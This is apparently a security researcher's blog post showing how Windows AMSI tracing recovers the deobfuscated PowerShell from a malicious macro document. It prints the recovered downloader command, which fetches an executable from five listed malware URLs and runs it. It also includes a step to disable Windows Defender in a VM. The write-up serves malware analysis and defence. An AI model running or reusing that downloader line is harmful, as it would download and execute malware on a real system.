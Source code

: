 ```yaml
---
layout: post
title: The Power of AMSI Tracing
categories: [Malware, Logging, AMSI]
excerpt: A walk through of how to leverage the Windows OS AMSI Tracing feature to quickly and easily retrieve heavily obfuscated code from maldocs to find IOC's. 
---
```


(Estimated Reading Time: 5 minutes)

- [Inspiration](#inspiration)
- [A Couple Samples](#a-couple-samples)
- [References](#references)

## Inspiration

While reviewing my tweeter feed this morning, the following [gist post from Matt Graeber](https://gist.github.com/mgraeber-rc/51651b859ee543260e0f4d3a281b8bf5) caught my attention. He tweeted about using the Windows Event Logging system, specifically AMSI Tracing logs, to capture the runtime context of VBA, Excel4, JScript, VBScript, PowerShell, WMI, and .NET (4.8+) in-mem assembly loads.

Typically, maldocs will include heavily obfuscated and encoded macro's making it difficult to reverse engineer back to something that is readable and understandable. Tools like [oledump.py](https://blog.didierstevens.com/programs/oledump-py/) from Didier Stevens can help extract those macros into a flat file for static reversing but that can take work. I've take an example maldoc below and shown how easily the malicious command line can be obtained using the technique Matt Graeber posted about. 

## A Sample

Using a sample from this blog: [Reverse Engineering an Obfuscated Malicious Macro](https://medium.com/walmartglobaltech/reverse-engineering-an-obfuscated-malicious-macro-3fd4d4f9c439) I'll demonstrate how easy it is to retrieve the powershell commands. 

The sample with SHA256 hash: [9d0e185ad2ed2ee4cd332294a17b534987b969c44931b49cdbcbfc329ea63f22](https://labs.inquest.net/dfi/sha256/9d0e185ad2ed2ee4cd332294a17b534987b969c44931b49cdbcbfc329ea63f22) can be found for easy download on labs.inquest.net.

As you can see below the following macro looks like it would take some work to reverse. The author of the prior mentioned blog shows a step by step static approach to walking this mess

![macro1](/images/macrosample1.jpg)

back to something readable.

![macro2](/images/macrosample2.jpg)

Now we will use the AMSI Tracing feature of Windows and CyberChef to arrive at the same outcome with much less effort.

Step 1. Start Tracing

```
logman start trace AMSITrace -p Microsoft-Antimalware-Scan-Interface -o amsi.etl -ets
```

Step 2. Run the sample. Using the sample I downloaded above, I opened the sample (in a virtual machine of course), and enabled macros (ie the office yellow ribbon). Also, make sure Windows Defender is disabled or else it will prevent the macro from running before AMSI Trace will see the command. After running the macro, stop the trace.

```
logman stop AMSITrace -ets
```

Step 3. View the collected trace data with the following command. 

```
Get-WinEvent -Path .\amsi.etl -Oldest | ? { $_.Id -eq 1101 } | % { [Text.Encoding]::Unicode.GetString($_.Properties[-3].Value) }
```

Using the sample above I could clearly see the following command in the collected AMSI trace data from the image below.

```
a$Ywi=new-object Net.WebClient;$jKB='http://jany.be/UsCX@http://jfogal.com/C@http://inspekservices.co.uk/g@http://ilgiardinodellevisciole.it/ny@http://www.diman.landesigne.ru/Q'.Split('@');$LtU = '394';$jri=$env:public+'\'+$LtU+'.exe';foreach($JBf in $jKB){try{$Ywi.DownloadFile($JBf, $jri);Invoke-Item $jri;break;}catch{}}
```

![ps2](/images/ps_amsi2.PNG)

I then took the above command and pasted it into [CyberChef](https://gchq.github.io/CyberChef/#recipe=Extract_URLs(false)Find_/_Replace(%7B'option':'Simple%20string','string':'@'%7D,'%5C%5Cn',true,false,true,false)Defang_URL(true,true,true,'Valid%20domains%20and%20full%20URLs')&input=YSRZd2k9bmV3LW9iamVjdCBOZXQuV2ViQ2xpZW50OyRqS0I9J2h0dHA6Ly9qYW55LmJlL1VzQ1hAaHR0cDovL2pmb2dhbC5jb20vQ0BodHRwOi8vaW5zcGVrc2VydmljZXMuY28udWsvZ0BodHRwOi8vaWxnaWFyZGlub2RlbGxldmlzY2lvbGUuaXQvbnlAaHR0cDovL3d3dy5kaW1hbi5sYW5kZXNpZ25lLnJ1L1EnLlNwbGl0KCdAJyk7JEx0VSA9ICczOTQnOyRqcmk9JGVudjpwdWJsaWMrJ1wnKyRMdFUrJy5leGUnO2ZvcmVhY2goJEpCZiBpbiAkaktCKXt0cnl7JFl3aS5Eb3dubG9hZEZpbGUoJEpCZiwgJGpyaSk7SW52b2tlLUl0ZW0gJGpyaTticmVhazt9Y2F0Y2h7fX0) to pull out the URL's quick and defang them. In the end I got the same result as static analysis only much easier.

```
hxxp[://]jany[.]be/UsCX
hxxp[://]jfogal[.]com/C
hxxp[://]inspekservices[.]co[.]uk/g
hxxp[://]ilgiardinodellevisciole[.]it/ny
hxxp[://]www[.]diman[.]landesigne[.]ru/Q
```

I will certainly be using AMSI Tracing more in future projects. Thanks, [Matt Graeber](https://twitter.com/mattifestation) for sharing this dynamic analysis technique.

## References

* Link to [GIST Post by Matt Graeber](https://gist.github.com/mgraeber-rc/51651b859ee543260e0f4d3a281b8bf5)
* Link to [Reverse Engineering an Obfuscated Malicious Macro](https://medium.com/walmartglobaltech/reverse-engineering-an-obfuscated-malicious-macro-3fd4d4f9c439)
